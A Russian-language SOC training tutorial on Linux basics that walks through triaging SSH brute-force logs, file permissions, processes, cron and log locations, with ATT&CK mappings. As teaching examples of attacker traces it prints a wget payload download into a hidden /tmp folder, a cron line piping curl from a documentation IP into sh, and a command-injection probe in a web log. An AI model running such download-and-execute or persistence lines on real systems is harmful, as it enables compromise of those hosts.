

Учебник: Linux Fundamentals
Модуль: Cyber Security 101 · Комнаты: Linux Fundamentals Part 1, Part 2, Part 3.
Что будешь уметь после учебника:
- ходить по Linux-серверу в терминале и ничего не сломать;
- за пару минут вытащить из лога SSH, кто ломится, сколько раз и был ли вход;
- прочитать строку
ls -lи сказать, кто может читать, менять и запускать файл; - отличить нормальный процесс, задание cron и вход по SSH от следов атакующего;
- коротко доложить по-немецки, что случилось.
Маршрут:
- 🤔 Part 1 — по желанию: всё из неё повторишь в Терминале мака по главе 1. Экономия ~15 мин [2].
- 🧪 Part 2 — пройди: настоящий Linux по SSH, права и
suна маке так не потрогать. ~20 мин [8]. - 🧪 Part 3 — пройди: процессы, systemd, cron и логи живут только на настоящем Linux. ~18 мин [12].
- Главы: 3 обязательных 🔥, 1 бегло 👀.

Вспомни прошлое
Три вопроса из прошлых учебников. Не помнишь — это нормально, ответ раскроется с объяснением.
Пролог: алерт в 11:05
11:05, дневная смена, учебная фирма Rednitz Hosting GmbH (хостинг в Фюрте, выдуманная). В очереди алерт из SIEM: «Учебный алерт: SSH brute force на сервере клиента LabSZ — больше 100 неудачных входов за 10 минут». У тебя есть выгрузка
/var/log/auth.logэтого сервера и доступ к нему только на чтение.Лог настоящий: это открытый датасет OpenSSH_2k.log из коллекции loghub [1]. Фирма и тикет выдуманы, строки и числа — реальные.
Через весь учебник ты ведёшь этот тикет. Глава 1 — найти в логе главное. Глава 2 — разобраться с единственным удачным входом. Главы 3 и 4 — проверить сам сервер: не оставил ли кто-то следов. В конце закрываешь тикет отчётом.
Глава 1. Терминал и поиск в логах (Part 1)
Аналогия
Терминал — это разговор с системой по рации. Ты не видишь склад целиком, как на камерах. Ты задаёшь короткий вопрос: «где я?», «что в этой коробке?», «найди все коробки с надписью X». И получаешь короткий ответ текстом.
Графика удобнее, когда смотришь глазами. Терминал быстрее, когда надо спросить точно и повторить вопрос на тысяче строк. А на сервере графики обычно просто нет.
Ты на смене
Алерт открыт. Перед тобой файл на 2000 строк. Читать глазами — час. Тебе нужно за пять минут ответить на три вопроса: сколько было неудачных входов, кто ломился чаще всех, был ли хоть один удачный вход.
Всё, что ниже, — инструменты для этих трёх ответов.
Linux — это ядро, а дистрибутивов много
Зачем тебе это: в тикете надо написать, что за система. От этого зависит, где лежат логи и какими командами их смотреть.
Linux — это ядро, сердцевина системы. Вокруг ядра разные команды собирают готовые системы — дистрибутивы: Ubuntu, Debian, Red Hat Enterprise Linux, Fedora. Ядро одно, а пакеты, настройки по умолчанию и места логов разные.
Пример: на Ubuntu и Debian вход по SSH пишется в /var/log/auth.log. На RHEL и Fedora — в /var/log/secure. Узнать дистрибутив можно так:
cat /etc/os-release
Где ошибаются новички: ищут auth.log на сервере RHEL и решают, что логов нет. Сначала узнай дистрибутив.
Приглашение и первые команды
Зачем: первым делом на чужой машине проверь, кто ты и где ты. Иначе однажды сделаешь проверку не на том сервере.
Строка перед курсором называется приглашение (prompt):
tryhackme@linux1:~$
Читается так: пользователь tryhackme, машина linux1, ты в домашнем каталоге (~), $ — обычный пользователь. Если в конце # — ты root, суперпользователь. На смене это сигнал: «осторожно, тут можно сломать всё».
Первые две команды:
echo "Привет" # печатает текст
whoami # печатает, под каким пользователем ты работаешь
echo кажется игрушкой, но им дальше собирают отчёты. whoami — проверка, что ты под той учёткой, под которой думаешь.
Ходим по файлам: pwd, ls, cd, cat
Зачем: логи, настройки и подозрительные файлы — всё это файлы в каталогах. Надо уметь дойти до них и заглянуть внутрь.
pwd # где я сейчас (print working directory)
ls # что лежит в каталоге
cd /var/log # перейти в каталог
cat auth.log # вывести файл целиком
Пример на настоящем логе. Скачай его к себе (подробно — в разделе «Практика»), и посмотри первые строки:
head -3 OpenSSH_2k.log
Dec 10 06:55:46 LabSZ sshd[24200]: reverse mapping checking getaddrinfo for ns.marryaldkfaczcz.com [173.234.31.186] failed - POSSIBLE BREAK-IN ATTEMPT!
Dec 10 06:55:46 LabSZ sshd[24200]: Invalid user webmaster from 173.234.31.186
Dec 10 06:55:46 LabSZ sshd[24200]: input_userauth_request: invalid user webmaster [preauth]
cat на файле в 2000 строк вывалит всё разом. Для больших файлов есть head (начало), tail (конец) и less (листать, выход — q).
Где ошибаются новички: открывают на сервере огромный лог через cat и минуту ждут, пока он прокрутится. На живом сервере лог бывает в гигабайты. Начинай с head, tail или grep.
Строка лога по полям
Зачем: чтобы искать в логе, надо понимать, из каких кусков состоит строка. Наведи на поле или нажми на него:
Поиск: grep и find
Зачем: это два главных инструмента главы. grep ищет строки внутри файлов, find ищет сами файлы.
grep печатает строки, где есть нужный текст:
grep "Accepted" OpenSSH_2k.log
Dec 10 09:32:20 LabSZ sshd[24680]: Accepted password for fztu from 119.137.62.142 port 49116 ssh2
Одна строка — один удачный вход за весь файл. Ключ -c вместо строк выдаёт их число:
grep -c "Failed password" OpenSSH_2k.log
520
find ищет файлы по имени, размеру, времени изменения. Путь, откуда искать, пишется первым:
find /var/log -name "*.log" # все файлы с окончанием .log
find /tmp -mmin -60 # что менялось в /tmp за последний час
* — подстановка: «любые символы». *.log — всё, что кончается на .log.
Где ошибаются новички: на маке пишут find -name "*.log" без пути, как иногда можно в Linux, и получают ошибку. В BSD-версии find на маке путь обязателен [6, 7]. Пиши путь всегда, хоть . — тогда команда работает везде.
Операторы: &, &&, >, >>, |
Зачем: из маленьких команд собирают одну большую. Так за одну строку получается «топ атакующих IP».
| Оператор | Что делает | Пример |
|---|---|---|
& |
запускает команду в фоне, терминал свободен | sleep 60 & |
&& |
вторая команда — только если первая прошла успешно | cd /var/log && ls |
> |
записывает вывод в файл, затирая его | echo "отчёт" > report.txt |
>> |
дописывает вывод в конец файла | echo "строка" >> report.txt |
| |
пайп: вывод одной команды идёт на вход другой | grep Failed auth.log | wc -l |
Пайп — главное [3]. Вот «топ атакующих» из четырёх команд:
grep "Failed password" OpenSSH_2k.log | grep -oE "from [0-9.]+" | sort | uniq -c | sort -rn | head -3
286 from 183.62.140.253
80 from 187.141.143.180
46 from 103.99.0.122
По шагам: найти неудачи → вырезать из каждой строки только from IP (-o — только совпадение, -E — расширенные регулярные выражения) → отсортировать → посчитать одинаковые (uniq -c) → отсортировать по числу, больше сверху → взять три.
Где ошибаются новички: пишут > вместо >> и затирают отчёт, который собирали полчаса. А на сервере > в чужой лог уничтожит улики. На смене ты логи только читаешь.
Вживую: три ответа для тикета
Собираем то, с чего начиналась глава:
grep -c "Failed password" OpenSSH_2k.log # 520 неудачных входов
grep -c "Failed password for root" OpenSSH_2k.log # 370 из них — в root
grep -c "Accepted" OpenSSH_2k.log # 1 удачный вход
Сколько разных адресов ломилось:
grep "Failed password" OpenSSH_2k.log | grep -oE "from [0-9.]+" | sort -u | wc -l # 23
Перебор шёл волнами. Самая большая — от 183.62.140.253 с 10:54 до 11:04: 286 неудач за 10 минут, около 28 попыток в минуту. Человек так не печатает, это программа.
Итог для тикета на этом этапе: перебор паролей подтверждён, 23 адреса, главный — 183.62.140.253. Один удачный вход есть, его разбираем в главе 2.
Копнуть глубже: «POSSIBLE BREAK-IN ATTEMPT!» — не взлом
В логе 85 строк с этой пугающей фразой. Она значит только одно: sshd проверил DNS, и прямая запись не совпала с обратной. Адрес → имя → обратно в адрес даёт другой результат.
Так бывает у половины домашних и облачных адресов. Это не попытка взлома сама по себе. Смотри, что идёт дальше в том же PID: если там Invalid user и [preauth] (соединение закрыто до входа) — это шум перебора, входа не было.
Как сказать на смене
- «Wir sehen einen SSH-Brute-Force-Angriff auf LabSZ, rund 520 fehlgeschlagene Anmeldungen.» — Мы видим перебор паролей по SSH на LabSZ, около 520 неудачных входов.
- «Es gab genau einen erfolgreichen Login, den prüfe ich gerade.» — Был ровно один удачный вход, я его сейчас проверяю.
Термины
| EN | RU | DE |
|---|---|---|
| shell / terminal | оболочка / терминал | Shell / Terminal |
| distribution | дистрибутив | Distribution |
| prompt | приглашение командной строки | Eingabeaufforderung |
| pipe | пайп, конвейер | Pipe |
| brute force | перебор паролей | Brute-Force-Angriff |
| log file | файл журнала, лог | Protokolldatei / Logdatei |
Выжимка
- Linux — ядро, дистрибутивов много; от дистрибутива зависит, где лог входов:
auth.logилиsecure. grepищет строки в файлах,find— сами файлы. Уfindпуть всегда первым.grep … | grep -oE … | sort | uniq -c | sort -rn— универсальный «топ чего угодно» из лога.>затирает файл,>>дописывает. В чужие логи не пишешь вообще.- «POSSIBLE BREAK-IN ATTEMPT» — проблема DNS, а не взлом.
Связи
- Pre Security → Linux CLI Basics: первые команды, если хочется освежить.
- Cyber Security 101 → Linux Shells: bash, zsh и скрипты — следующий шаг после этой главы.
Глава 2. SSH, файлы и права (Part 2)
su на маке так не потрогать. Прочитай главу → пройди комнату → вернись к практике. ~20 мин.Аналогия
Права в Linux — как ключи в офисном здании. У каждой двери (файла) есть хозяин, есть отдел (группа), который туда пускают, и есть все остальные. Для каждого из трёх висит табличка: можно ли войти посмотреть, можно ли переставить мебель, можно ли запустить станок.
Root — это охранник с мастер-ключом. Ему открыто всё, поэтому атакующий всегда стремится стать root.
Ты на смене
В логе один удачный вход:
fztuв 09:32:20 с119.137.62.142. Надо ответить: это атакующий подобрал пароль или обычный пользователь пришёл на работу? И если это атакующий — до чего он мог дотянуться под этой учёткой?
SSH: вход на машину издалека
Зачем: почти все Linux-серверы администрируют по SSH. Поэтому SSH — главная дверь и для админов, и для атакующих.
ssh tryhackme@10.10.10.10
tryhackme — пользователь, 10.10.10.10 — адрес машины. При первом подключении SSH показывает отпечаток ключа сервера и спрашивает, доверяешь ли ты ему. Пароль при вводе не отображается вообще, даже звёздочками — это нормально.
Пример из нашего лога. Все строки одного подключения связаны номером процесса 24680:
grep "sshd\[24680\]" OpenSSH_2k.log
Dec 10 09:32:20 LabSZ sshd[24680]: Accepted password for fztu from 119.137.62.142 port 49116 ssh2
Dec 10 09:32:20 LabSZ sshd[24680]: pam_unix(sshd:session): session opened for user fztu by (uid=0)
Dec 10 09:45:06 LabSZ sshd[24680]: pam_unix(sshd:session): session closed for user fztu
Сессия длилась 13 минут: вошёл в 09:32, вышел в 09:45.
Был ли это перебор? Проверяем фактами
Зачем: самая частая ошибка новичка — увидеть «был перебор» и «был вход» и склеить в «нас взломали». Связь надо доказать или опровергнуть.
Три проверки:
grep -c "fztu" OpenSSH_2k.log # 3 — только строки этой сессии
grep "Failed" OpenSSH_2k.log | grep -c "fztu" # 0 неудач для fztu
grep -c "119.137.62.142" OpenSSH_2k.log # 1 — адрес больше нигде не встречается
Получается: у fztu нет ни одной неудачной попытки, а его адрес не участвовал в переборе. Перебор шёл по root, admin, oracle, test — по типичным именам, а не по fztu.
Ближайшая волна неудач была в 09:10–09:19 (123 штуки, в основном от 187.141.143.180 и 103.99.0.122). Вход fztu — через 13 минут и с другого адреса.
Вывод: признаков, что пароль fztu подобрали, нет. Но и «точно легитимно» по одному куску лога не скажешь: нет истории, как fztu обычно входит. Это «надо копать»: спросить клиента и посмотреть историю входов в SIEM.
Флаги, --help и man
Зачем: команд сотни, а флагов у каждой десятки. Запоминать бесполезно, надо уметь быстро найти.
Флаг (ключ) меняет поведение команды. Короткий — с одним дефисом, длинный — с двумя:
ls -a # показать и скрытые файлы (их имя начинается с точки)
ls --all # то же самое, длинная форма
Где искать флаги:
ls --help # короткая справка (у ls на маке её нет, будет ошибка — там только man)
man ls # полное руководство, выход — q
Ещё удобнее explainshell.com [5]: вставляешь чужую длинную команду, и сайт разбирает её по частям. Полезно, когда в логе попалась команда атакующего.
Где ошибаются новички: пропускают скрытые файлы. Атакующие любят прятать файлы с точкой в начале имени (/tmp/.sys/), а ls без -a их не показывает.
Файлы: touch, mkdir, cp, mv, rm, file
Зачем: на смене ты файлы не трогаешь, но атакующий делает именно это. Надо узнавать эти команды в истории и логах.
| Команда | Что делает | Пример |
|---|---|---|
touch |
создаёт пустой файл | touch note.txt |
mkdir |
создаёт каталог | mkdir cases |
cp |
копирует | cp auth.log auth.bak |
mv |
перемещает или переименовывает | mv a.txt b.txt |
rm |
удаляет без корзины; каталог — с -r |
rm -r old/ |
file |
говорит, что это за файл на самом деле | file kworker |
file для SOC самая полезная. Расширение врёт, содержимое — нет:
$ file invoice.pdf
invoice.pdf: ELF 64-bit LSB executable, x86-64
Это учебный пример: файл назван как PDF, а внутри — программа для Linux. Такое сразу в тикет.
Права: читаем ls -l
Зачем: права решают, что атакующий может сделать под захваченной учёткой. И неправильные права сами бывают находкой.
$ ls -l /etc/shadow /usr/bin/passwd /tmp/.sys/kworker
-rw-r----- 1 root shadow 1452 Dec 10 06:00 /etc/shadow
-rwsr-xr-x 1 root root 68208 Nov 29 12:00 /usr/bin/passwd
-rwxrwxrwx 1 www-data www-data 1048576 Dec 10 11:20 /tmp/.sys/kworker
Учебный пример, разберём первую строку по полям:
Две другие строки — что настораживает:
rwsr-xr-xу/usr/bin/passwd: букваsвместоx— SUID. Программа запускается с правами хозяина (root), кто бы её ни запустил. Уpasswdэто норма: ей надо писать в/etc/shadow. SUID у незнакомого файла в/tmp— тревога.rwxrwxrwxу файла в/tmp: писать и запускать может кто угодно. Плюс скрытый каталог и имя под системный поток. Это три признака сразу.
Права меняют командой chmod [10]. Если увидишь в истории chmod +x на скачанный файл — так атакующий делает файл запускаемым.
Учётки: /etc/passwd и su
Зачем: в тикете ты пишешь, что за учётка вошла. Обычный человек, служебная учётка программы или root — от этого зависит приоритет.
/etc/passwd читать могут все, паролей там нет [11]:
fztu:x:1001:1001:F. Tu:/home/fztu:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
Поля через двоеточие: имя, x (пароль лежит в /etc/shadow), UID, GID, описание, домашний каталог, оболочка. Учебный пример.
Как отличить человека от службы: у людей UID обычно от 1000, а оболочка — /bin/bash или /bin/zsh. У служб UID маленький, оболочка nologin: войти по SSH такой учёткой нельзя.
su переключает пользователя, su -l — как будто вошёл заново, с его окружением. sudo запускает одну команду от root, если тебе это разрешено.
Где ошибаются новички: видят в логе www-data с оболочкой и не удивляются. У службы веб-сервера интерактивной оболочки быть не должно. Если она есть — кто-то её завёл.
Карта каталогов
Зачем: по пути файла часто сразу видно, норма это или нет.
| Каталог | Что там | Почему это важно SOC |
|---|---|---|
/etc |
настройки системы | изменения тут — сигнал (новые учётки, правки sshd) |
/var/log |
логи | главный источник для тебя |
/home/<user> |
домашние каталоги людей | .ssh/authorized_keys, .bash_history |
/root |
домашний каталог root | доступ сюда = права root |
/tmp |
временные файлы, писать могут все | любимое место для файлов атакующего |
/usr/bin |
обычные программы | новый незнакомый файл тут подозрителен |
Расположение каталогов описывает стандарт FHS [13].
Копнуть глубже: authorized_keys — дверь, которая переживёт смену пароля
Вход по SSH бывает не только по паролю, но и по ключу. Список разрешённых ключей лежит в ~/.ssh/authorized_keys у каждого пользователя.
Атакующий, который один раз вошёл, может дописать туда свой ключ. Тогда смена пароля его уже не выгонит. Это техника закрепления T1098.004 [9]. Поэтому после подозрительного входа проверяют, когда последний раз менялся этот файл.
Как сказать на смене
- «Der Login von fztu kam von einer IP, die am Angriff nicht beteiligt war.» — Вход fztu был с адреса, который не участвовал в атаке.
- «Bitte bestätigen Sie, ob dieser Login von Ihnen erwartet war.» — Пожалуйста, подтвердите, ожидали ли вы этот вход.
Термины
| EN | RU | DE |
|---|---|---|
| permission | право доступа | Berechtigung / Zugriffsrecht |
| owner / group | владелец / группа | Besitzer / Gruppe |
| service account | служебная учётка | Dienstkonto |
| hidden file | скрытый файл | versteckte Datei |
| key-based login | вход по ключу | schlüsselbasierte Anmeldung |
Выжимка
- Строки одного SSH-подключения связаны PID процесса sshd:
grep "sshd\[PID\]". - «Был перебор» и «был вход» — два разных факта. Связь доказывают: неудачи у этой учётки, тот же адрес, время.
ls -l: тип, права хозяина, группы, остальных.sвместоx— SUID,rwxrwxrwxв/tmp— тревога.- Человек: UID от 1000 и обычная оболочка. Служба: маленький UID и
nologin. fileпоказывает, что внутри файла на самом деле, а не что написано в расширении.
Связи
- Cyber Security 101 → Windows Fundamentals: те же идеи прав и учёток, но в Windows (NTFS, группы).
- SOC Level 1: модули про SIEM (Splunk, Elastic) работают с теми же логами входов.
Глава 3. Редакторы и передача файлов (Part 3, начало)
Аналогия
Передача файлов на сервер — как доставка посылок на склад. Админ привозит свои коробки через главный вход по накладной. Атакующий тоже привозит, но курьером с чужого адреса и складывает в подсобку (/tmp). Твоя задача — заметить посылку, которой никто не заказывал.
Ты на смене
Ты проверил вход
fztu. Следующий вопрос заказчика: «А не скачали ли что-то на сервер?». Чтобы ответить, надо знать, как файлы на сервер вообще попадают.
Редакторы: nano и vim
Зачем: иногда надо открыть конфиг и прочитать его удобно, с поиском. Менять на чужом сервере ты ничего не будешь.
nano файл— простой редактор, подсказки внизу экрана.^значит Ctrl:Ctrl+X— выйти.vim файл— мощный, но непривычный. Выйти без сохранения:Esc, потом:q!и Enter. Запомни хотя бы это.
Безопаснее всего читать через less: он вообще не умеет менять файл.
wget и curl: скачать из интернета
Зачем: это самый частый способ, которым атакующий заносит на сервер свои программы. Техника называется Ingress Tool Transfer, T1105 [18].
wget https://example.com/file.txt
curl -O https://example.com/file.txt
Норма: админ скачивает обновление с сайта разработчика в свой домашний каталог. Тревога: скачивание с голого IP-адреса в /tmp от имени службы. Например, учебная команда:
wget http://203.0.113.66/kworker -O /tmp/.sys/kworker
Адрес взят из диапазона для документации [15]. Голый адрес, скрытый каталог, имя под системный поток — три признака в одной строке.
scp и python3 -m http.server: файлы между машинами
Зачем: так файлы ходят внутри сети. В логах это выглядит как SSH-вход или как неожиданный веб-сервер на необычном порту.
scp копирует по SSH:
scp report.txt user@10.10.10.10:/home/user/ # отправить на сервер
scp user@10.10.10.10:/var/log/auth.log . # забрать с сервера
Python одной командой поднимает веб-сервер, который раздаёт текущий каталог:
python3 -m http.server # порт 8000 по умолчанию
Документация Python прямо пишет, что этот сервер не для продакшена [16]. Если на сервере клиента вдруг слушает порт 8000 и раздаёт каталог — это чаще инструмент атакующего или забытая админская временная штука. В обоих случаях — в тикет.
Где ошибаются новички: видят scp в логе и пугаются. Админы копируют файлы так каждый день. Смотри, кто, откуда и что именно.
Термины
| EN | RU | DE |
|---|---|---|
| file transfer | передача файлов | Dateiübertragung |
| download | загрузка, скачивание | Herunterladen |
| text editor | текстовый редактор | Texteditor |
Выжимка
- На чужом сервере читай через
less, а не через редактор. Из vim без сохранения:Esc,:q!. wget/curlс голого IP в/tmp— классический признак T1105.scp— копирование по SSH: в логе это обычный вход по SSH.python3 -m http.server— временный веб-сервер на 8000; на сервере клиента — повод спросить.
Глава 4. Процессы, cron и логи (Part 3)
Аналогия
Процессы — это сотрудники, которые прямо сейчас работают на складе. У каждого есть табельный номер (PID), начальник, который его вызвал (родитель), и имя, под которым он работает (пользователь). Cron — это расписание смен на стене: кто и когда придёт сам, без звонка.
Чтобы заметить чужого, надо сначала знать своих. Поэтому главное в этой главе — норма.
Ты на смене
Вход
fztu— без признаков перебора. Но заказчик спрашивает: «Точно ничего не осталось?». Ты смотришь три места, где обычно прячутся последствия взлома: запущенные процессы, расписание cron и логи.
Процессы: ps и top
Зачем: если атакующий что-то запустил, это видно как процесс. Майнер, бэкдор, сканер — всё это процессы.
ps aux # все процессы всех пользователей
top # живой список, сверху — кто больше всех ест CPU, выход — q
ps aux выдаёт колонки: USER, PID, %CPU, %MEM, … , COMMAND. Самые важные — кто запустил, номер и команда.
Норма: как выглядит обычный Linux
Зачем: аномалию видно только на фоне нормы. Это и есть тема «За рамками THM» в этом учебнике: комната показывает команды, но не говорит, что в их выводе считать нормальным.
Что ты увидишь на обычном сервере:
- PID 1 — systemd. Первый процесс после ядра, он запускает всё остальное [27]. На старых системах на его месте
init. - Процессы в квадратных скобках —
[kthreadd],[kworker/0:1]. Это потоки ядра. Командной строки у них нет, поэтомуpsпоказывает имя в скобках [28]. - sshd — один слушающий процесс от root. С OpenSSH 9.8 (июль 2024) на каждое подключение запускается отдельный
sshd-session[29]. На старых версиях — копияsshd. - cron — один демон, который ждёт расписания.
- Службы вроде
nginx,apache2,mysqld— каждая под своей служебной учёткой, не под root.
И как выглядит та же картина после взлома (учебный пример):
Что выдаёт чужака справа:
kworkerбез квадратных скобок и с путём в/tmp. Настоящий поток ядра в скобках и пути не имеет. Это маскировка, техника T1036 [30].- Под учёткой веб-сервера работает оболочка, которая качает скрипт и сразу его выполняет.
- 98% CPU у «системного» процесса — типичный майнер.
Где ошибаются новички: видят в ps слово kworker и пропускают — «это же ядро». Смотри на скобки и путь.
Сигналы: остановить процесс
Зачем: на смене процессы ты не убиваешь — это решает L2 или заказчик. Но в логах и тикетах это встречается постоянно.
kill 3120 # вежливо попросить завершиться (SIGTERM)
kill -9 3120 # убить сразу (SIGKILL)
SIGTERM процесс может перехватить и спокойно закрыться. SIGKILL и SIGSTOP перехватить нельзя [20].
Ctrl+Z приостанавливает процесс в терминале, & в конце команды запускает её в фоне. Как вернуть фоновый процесс обратно на передний план — найдёшь в man bash, раздел JOB CONTROL. Это есть в вопросах комнаты, поэтому ответ тут не пишу.
systemd и systemctl: службы
Зачем: службы — это программы, которые стартуют сами при загрузке. Атакующий тоже умеет сделать свою программу службой, чтобы она переживала перезагрузку (T1543.002) [19].
systemctl status ssh # работает ли служба
systemctl start / stop ssh # запустить / остановить сейчас
systemctl enable / disable ssh # включить / выключить автозапуск
systemctl list-units --type=service # все службы
Норма: службы из пакетов, их юниты лежат в /lib/systemd/system/ или /usr/lib/systemd/system/. Тревога: новый юнит в /etc/systemd/system/ со странным именем, который запускает файл из /tmp или домашнего каталога.
cron: расписание
Зачем: cron — самый простой способ закрепиться на Linux. Программа атакующего запускается сама каждые 5 минут или при каждой загрузке. Это техника T1053.003 [22].
Строка расписания — пять полей времени и команда [21]:
# мин час день месяц день_недели команда
0 3 * * * /usr/local/bin/backup.sh
Здесь бэкап каждый день в 03:00. * — «любое значение».
Где смотреть:
crontab -l # задания текущего пользователя
sudo crontab -l -u fztu # задания конкретного пользователя
ls /etc/cron.d/ /etc/cron.daily/
cat /etc/crontab
Норма и тревога рядом:
| Норма | Тревога |
|---|---|
0 3 * * * /usr/local/bin/backup.sh — бэкап ночью, скрипт в обычном месте |
*/5 * * * * curl -s http://203.0.113.66/x | sh — каждые 5 минут качать и выполнять |
/etc/cron.daily/logrotate — пакетное задание ротации логов |
@reboot /tmp/.sys/kworker — запуск файла из /tmp при каждой загрузке |
| задание создано вместе с установкой пакета | задание появилось в ту же ночь, что и подозрительный вход |
Обе тревожные строки — учебные, адрес из RFC 5737.
Пакеты: apt
Зачем: установка программ тоже оставляет след. Если в ночь инцидента кто-то ставил пакеты — это важно для таймлайна.
sudo apt update # обновить список пакетов из репозиториев
sudo apt install nmap # поставить пакет
apt list --installed # что стоит
Репозиторий — это сервер, откуда берутся пакеты. Его подлинность проверяется ключом подписи. Старая команда apt-key объявлена устаревшей: ключи теперь кладут в /etc/apt/keyrings/ [23].
История установок лежит в /var/log/apt/history.log и /var/log/dpkg.log. Сравни время установки со временем подозрительного входа.
Логи: /var/log
Зачем: это главный источник для тебя. Всё, что выше, ты в итоге подтверждаешь логами.
| Файл | Что в нём | Дистрибутив |
|---|---|---|
/var/log/auth.log |
входы, sudo, su, SSH | Debian, Ubuntu |
/var/log/secure |
то же самое | RHEL, Fedora |
/var/log/syslog |
общий журнал системы | Debian, Ubuntu |
/var/log/apache2/access.log |
каждый запрос к веб-серверу | Apache на Debian/Ubuntu |
/var/log/apt/history.log |
установка пакетов | Debian, Ubuntu |
Строка access.log выглядит так [24]:
203.0.113.66 - - [10/Dec/2025:11:20:01 +0100] "GET /index.php?cmd=id HTTP/1.1" 200 512 "-" "curl/8.5.0"
Учебный пример. По порядку: кто пришёл, когда, что запросил, код ответа, размер, откуда, чем. cmd=id в адресе и curl вместо браузера — так проверяют, можно ли выполнять команды через сайт.
Важная деталь современных систем: на Debian 12 rsyslog по умолчанию больше не ставится [25]. Тогда файла auth.log может не быть вовсе, а логи лежат в журнале systemd:
journalctl -u ssh --since "2025-12-10 09:00" # логи службы ssh с указанного времени
Где ошибаются новички: не находят auth.log и пишут «логов нет». Проверь journalctl [26].
Копнуть глубже: что, если логи кто-то почистил
Атакующий может стереть или обрезать логи, чтобы спрятать следы. Это техника T1070.002 [4]. Признаки: лог внезапно начинается с середины дня, в нём дыра в несколько часов, размер файла резко упал.
Поэтому в нормальной компании логи сразу уходят в SIEM. Стереть копию на сервере можно, а в SIEM они уже лежат. Если в SIEM есть события, а на сервере их нет — это само по себе находка.
Вживую: закрываем вопрос «точно ничего не осталось?»
Чек-лист, который ты прогоняешь после подозрительного входа (команды только на чтение):
ps aux --sort=-%cpu | head # кто ест CPU, нет ли процессов из /tmp
ls -la /tmp /var/tmp /dev/shm # скрытые файлы во временных каталогах
crontab -l -u fztu; ls -la /etc/cron.d/
ls -la ~fztu/.ssh/ # не менялся ли authorized_keys
grep "fztu" /var/log/auth.log # что делал fztu: sudo, su
В нашем тикете у тебя есть только лог входов, сервер заказчик не открывал. Поэтому в отчёте честно пишешь: «проверки на хосте рекомендованы, по логу признаков компрометации нет».
Карта MITRE ATT&CK по учебнику
Всё, что было в учебнике, в терминах ATT&CK. ID сверены с ATT&CK Enterprise v20.0 [17]. Обрати внимание: в v20 тактики Defense Evasion больше нет, вместо неё Stealth (TA0005) и Defense Impairment (TA0112). На собеседованиях и в старых статьях ещё говорят по-старому.
| Что видишь | Техника | Тактика | Где видно |
|---|---|---|---|
| Сотни Failed password | T1110.001 Password Guessing [31] | Credential Access | auth.log / secure |
| Удачный вход подобранной учёткой | T1078 Valid Accounts | Initial Access | Accepted после серии Failed |
| Вход по SSH | T1021.004 SSH [32] | Lateral Movement | auth.log, journald |
| Свой ключ в authorized_keys | T1098.004 SSH Authorized Keys [9] | Persistence | время изменения ~/.ssh/authorized_keys |
wget/curl с голого IP |
T1105 Ingress Tool Transfer [18] | Command and Control | история команд, прокси, EDR |
| Задание cron с загрузкой | T1053.003 Cron [22] | Persistence | crontab -l, /etc/cron.d, syslog |
| Новая служба systemd | T1543.002 Systemd Service [19] | Persistence | /etc/systemd/system/, journald |
kworker в /tmp |
T1036 Masquerading [30] | Stealth | ps, EDR |
chmod на чужой файл |
T1222.002 Linux and Mac Permissions | Defense Impairment | история команд, аудит |
| Стёртые логи | T1070.002 Clear Linux or Mac System Logs [4] | Stealth | дыры в логе, расхождение с SIEM |
Как сказать на смене
- «Auf dem Host läuft ein Prozess aus /tmp, der sich als Kernel-Thread tarnt.» — На хосте работает процесс из /tmp, который маскируется под поток ядра.
- «Ich habe einen verdächtigen Cronjob gefunden und eskaliere an L2.» — Я нашёл подозрительное задание cron и эскалирую на L2.
Термины
| EN | RU | DE |
|---|---|---|
| process | процесс | Prozess |
| parent process | родительский процесс | Elternprozess |
| scheduled job | задание по расписанию | geplanter Job / Cronjob |
| service | служба | Dienst |
| persistence | закрепление | Persistenz |
| baseline | норма, базовая линия | Normalzustand / Baseline |
Выжимка
- Сначала норма: PID 1 — systemd, потоки ядра в
[скобках], sshd слушает от root, службы под своими учётками. kworkerбез скобок и с путём — маскировка. Процесс из/tmp— тревога.- cron и systemd — два главных способа закрепиться. Смотри время создания задания и что оно запускает.
- Логов нет в
/var/log? Проверьjournalctl— на Debian 12 rsyslog по умолчанию не ставится. - Без доступа к хосту пиши честно: «по логу признаков нет, проверка хоста рекомендована».
Связи
- SOC Level 1: дальше эти же проверки делаются через SIEM и EDR, а не руками на сервере.
- Cyber Security 101 → Linux Shells: как атакующие и админы пишут bash-скрипты.
Самопроверка
Двенадцать вопросов: десять по этому учебнику и два по прошлым.
Практика на реальных логах
Всё на настоящих данных из loghub [1]: OpenSSH_2k.log и Linux_2k.log, по 2000 строк. Работай в Терминале мака — команды портируемые.
mkdir -p ~/thm/linux && cd ~/thm/linux
curl -O https://raw.githubusercontent.com/logpai/loghub/master/OpenSSH/OpenSSH_2k.log
curl -O https://raw.githubusercontent.com/logpai/loghub/master/Linux/Linux_2k.log
wc -l *.log
wc -l покажет по 1999, а не 2000: в конце файла нет перевода строки, и последняя строка не считается. Мелочь, но в отчёте лучше знать, откуда расхождение.
Задание 1. Разведка по SSH-логу
Ответь командами:
- Сколько всего строк
Failed password? - Сколько раз ломились именно в
root? - Сколько удачных входов (
Accepted)? - Топ-3 атакующих IP по числу неудач.
Ключ
grep -c "Failed password" OpenSSH_2k.log # 520
grep -c "Failed password for root" OpenSSH_2k.log # 370
grep -c "Accepted" OpenSSH_2k.log # 1
